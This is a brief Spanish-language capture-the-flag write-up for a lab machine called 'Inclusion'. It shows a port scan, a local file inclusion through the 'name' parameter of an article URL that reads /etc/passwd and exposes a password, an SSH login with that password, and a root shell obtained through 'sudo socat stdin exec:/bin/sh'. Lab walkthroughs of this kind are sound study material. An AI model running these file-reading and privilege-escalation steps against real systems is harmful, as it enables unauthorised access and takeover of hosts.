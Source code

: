 # Inclusion
Room sencillita para explotar un LFI

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root
